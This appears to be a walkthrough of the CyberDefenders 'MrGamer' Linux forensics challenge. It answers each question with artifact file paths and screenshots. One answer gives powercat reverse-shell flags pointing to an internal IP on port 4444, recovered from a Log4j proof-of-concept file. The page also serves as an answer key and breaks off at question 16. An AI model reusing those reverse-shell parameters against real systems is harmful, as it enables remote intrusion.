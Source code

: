# <a href="https://cyberdefenders.org/blueteam-ctf-challenges/mrgamer/">MrGamer</a>

**Platform:** CyberDefenders

**Scenario:** This #Linux image belongs to a user who likes to play games and communicate with friends. Is there something happening under the hood? Test drive your #LinuxForensics skills and identify anomalies!

As a soc analyst, analyze the artifacts and answer the questions.

Resources: [Linux Artifacts - Targeted Locations Quick Reference Guide](https://www.magnetforensics.com/resources/targeted-locations-quick-reference-guide-for-linux-artifacts/)

**Category:** Endpoint Forensics

**Difficulty:** Medium

**Files:** `N/A`

**Tools:** `` 

**Note:** In this walkthrough, CyberDefenders offers a lab environment for us to utilize. This feature is included with the PRO subscription.

## **Preparations** 
  
## **Questions and Answers**

***1. I use print statements for my logging -> What is the name of the utility/library the user was looking at exploits for?***  
log4j

![image](https://github.com/user-attachments/assets/4f7dbcd4-0bbe-4bcb-a0ed-fcf03f808f8e)

/home/rafael/.bash_history

port 4444 - It's frequently used with tools like Metasploit, where it serves as the default port for payloads like meterpreter.

***2. Mischievous Lemur -> What is the version ID number of the operating system on the machine?***  
21.10

![image](https://github.com/user-attachments/assets/0689e3c4-2ece-4d4b-bd7f-baf14f4f5dcb)
/etc/os-release

![image](https://github.com/user-attachments/assets/6ebcd38d-f1c9-4703-ba62-27d88e1b2a61)
/usr/lib/os-release

***3. $whoami -> What is the hostname of the computer?***  
rshell-lenovo

![image](https://github.com/user-attachments/assets/c7c55fd7-8fa7-47c1-911a-450fcaf5a410)
/etc/hostname

***4. A little blue birdie told me -> What is one anime that the user likes?***  

attack on titan

![image](https://github.com/user-attachments/assets/98806e01-78ee-4de5-b1ba-4975c88002f2)

I thought Twitter first then I saw thunderbird mail which is a blue bird as well. Then I checked the mailbox and see the Twitter-related events.

/home/rafael/.thunderbird/vrvcx2qf.default-release/ImapMail/imap.gmail.com/INBOX.msf

***5. Into the Matrix, we go -> What is the UUID for the attacker's Minecraft account?***  

8b0dec19-b463-477e-9548-eef20c861492

![image](https://github.com/user-attachments/assets/d5557ea1-6573-48d6-9250-707e082922b7)

/home/rafael/.minecraft/user-cache.json

***6. Today's Youtube video is sponsored by... -> What VPN client did the user install and use on the machine?***  

zerotier

![image](https://github.com/user-attachments/assets/fbd2ddbc-a275-4f1d-b491-58d570f217bf)

/home/rafael/.bash_history

![image](https://github.com/user-attachments/assets/3600f51c-a137-4f96-9e2b-1e407d63b21a)

***7. Be our guest -> What was the user's first password for the guest wifi?***  

![image](https://github.com/user-attachments/assets/c1649231-1a59-4c83-9390-26932b923b06)

/etc/NetworkManager/system-connections/Ezmoneynmconnection

093483

![image](https://github.com/user-attachments/assets/bda51ff7-82ec-49f4-ae0f-77ef010ba3bf)

but not the first

/home/rafael/.thunderbird/vrvcx2qf.default-release/ImapMail/imap.gmail.com/INBOX

![image](https://github.com/user-attachments/assets/1ce86d6a-990f-475b-9633-e48d610389ba)

***8. If a picture is worth a thousand words, how many is a video worth? -> The user watched a video that premiered on Dec 11th, 2021. How many views did it have when they watched it on February 9th?***  

I first look into mozilla files but did not find it

![image](https://github.com/user-attachments/assets/e685cda2-2df7-48ff-b66e-8d65a3ea0c6d)

265342

/home/rafael/pictures/Screenshot from 2022-02-09 16-42-10.png

***9. I'm hungry for videos -> What is the new channel name for the YouTuber whose cookbook is shown on the device?***  

Babish Culinary Universe

![image](https://github.com/user-attachments/assets/16b8f2f8-dad3-44d1-9092-c8677928b0cb)

/home/rafael/.cache/thumbnails/large

> this directory is used to cache thumbnails to speed up file browsing, so your system doesn't have to regenerate thumbnails each time you open a folder.

![image](https://github.com/user-attachments/assets/7a38f7c0-a77f-475c-82d9-8aacd1e285cd)

![image](
https://github.com/user-attachments/assets/681ea8be-d396-4017-9f59-9af770187a91)

***10. Hunt the Wumpus -> What is the module with the highest installed version for the chat application with the mascot Wumpus?***  

discord_voice

![image](https://github.com/user-attachments/assets/becbd057-19dd-4856-97a0-cdbbf557e4be)

![image](https://github.com/user-attachments/assets/7491a8f9-ee53-4e2d-b673-8fc16f0a9eda)

/home/rafael/.config/discord/0.0.16/modules/installed.json

***11. It's raining ocelots and wolves -> According to Windows, what was the temperature in Fahrenheit on February 11th, 2022, at 6:30 PM?***  

45F

![image](https://github.com/user-attachments/assets/3a724ac0-bc28-48eb-af50-dca59e7df823)

/home/rafael/.cache/thumbnails/large

the image is unreadable

exported it then use exiftool to check the metadata

![image](https://github.com/user-attachments/assets/3cdba1d0-1698-477b-a3bc-1e2ff92783be)

it provides the original file path

/home/rafael/marshalsec/poc/YXvySdGd.jpeg

![image](https://github.com/user-attachments/assets/1fcd8360-dec1-47cc-b7ee-2701acf08585)

***12. Never gonna give... up on this question -> What is the upload date of the second YouTube video on the channel from which the user downloaded a YouTube video?***  

![image](https://github.com/user-attachments/assets/34d3f53b-9ef2-4edc-a268-1d6886480d55)

rickrolled 

![image](https://github.com/user-attachments/assets/8c572315-af45-411f-a082-e5cbae117c78)

10/25/2009

***13. Buzzy Bees -> What is the SHA-1 hash of Minecraft's "latest" release according to the system?***  

3c6e119c0ff307accf31b596f9cd47ffa2ec6305

![image](https://github.com/user-attachments/assets/790e61d9-51f0-44f4-b2bb-2a38cecba423)

![image](https://github.com/user-attachments/assets/66b43dad-b45b-4b08-9c30-8a2fb44daa17)

***14. The RCE is base(64)d on what? -> What were the three flags and their values that were passed to powercat? The answer must be provided in the same format as the entered command. (For example, if the command was "powercat -D Y -l a -n," the answer would be "-D Y -l a -n")***  
Flags(e.g.,-c 192.**...) Flags(e.g.,-c 192.**...)  

-c 192.168.191.253 -p 4444 -e cmd

![image](https://github.com/user-attachments/assets/ac8d325c-5ae4-4e39-a10e-d0ccfa49ebdc)

/home/rafael/marshalsec/.git/poc/Log4jRCE.java

![image](https://github.com/user-attachments/assets/7c0b4e20-eda1-48ae-82ea-40f9a0c2b31f)

cyberchef

***15. Hello (New) World -> How many dimensions (including the overworld) did the player travel to in the "oldest of the worlds"?***  

`one`

I use chatgpt for research, I am not familiar with the dimensions in minecraft.

![image](https://github.com/user-attachments/assets/2d656552-67e5-49f1-b019-a6f103c9dcab)

![image](https://github.com/user-attachments/assets/4f7b10b1-d687-45d3-a62e-19d5b4abfb87)

So manually, we will check /home/rafael/.minecraft/saves/<world-name>/advancements/8b0dec19-b463-477e-9548-eef20c861492.json. Since we cannot find any, we can say that the player did not go to another world aside from the original.

***16. Matrix_1999 is the key! -> What is the mojangClientToken stored in the Keystore?***  
